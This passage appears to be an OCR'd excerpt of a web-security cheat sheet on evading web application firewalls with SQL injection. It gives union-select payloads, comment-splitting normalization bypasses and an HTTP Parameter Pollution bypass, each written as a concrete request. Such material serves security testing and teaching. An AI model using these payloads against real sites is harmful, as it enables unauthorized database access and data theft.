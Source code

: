 1.  Exploitation features for various DBMSs



```
  Example: (MySQL): SELECT * from table where id = 1 union select 1,2,3
  Example: (PostgreSQL): SELECT * from table where id = 1; select 1,2,3
```

**Bypassing WAF: SQL Injection - Normalization Method**
Example Number (1) of a vulnerability in the function of request
Normalization.
• The following request doesn’t allow anyone to conduct an attack

` /?id=1+union+select+1,2,3/*`

• If there is a corresponding vulnerability in the WAF, this request

` will be successfully performed`
` /?id=1/*union*/union/*select*/select+1,2,3/*`

• After being processed by WAF, the request will become

` index.php?id=1/*uni X on*/union/*sel X ect*/select+1,2,3/*`

The given example works in case of cleaning of dangerous traffic, not in
case of blocking the entire request or the attack source.
Example Number (2) of a vulnerability in the function of request
Normalization.
• Similarly, the following request doesn’t allow anyone to conduct an
attack

` /?id=1+union+select+1,2,3/*`

• If there is a corresponding vulnerability in the WAF, this request
will be successfully performed

` /?id=1+un/**/ion+sel/**/ect+1,2,3--`

• The SQL request will become

` SELECT * from table where id =1 union select 1,2,3--`

_Instead of construction /\*\*/, any symbol sequence that WAF cuts off
can be used (e.g., \#\#\#\#\#, %00)._

_The given example works in case of excessive cleaning of incoming data
(replacement of a regular expression with the empty string)._

**'Using HTTP Parameter Pollution (HPP)**'

• The following request doesn’t allow anyone to conduct an attack

` /?id=1;select+1,2,3+from+users+where+id=1--`

• This request will be successfully performed using HPP

` /?id=1;select+1&id=2,3+from+users+where+id=1--`

_Successful conduction of an HPP attack bypassing WAF depends on the
environment of the application being attacked._ [EU09 Luca Carettoni, Stefano diPaola](http://wiki.owasp.org/images/b/ba/AppsecEU09_CarettoniDiPaola_v0.8.pdf)
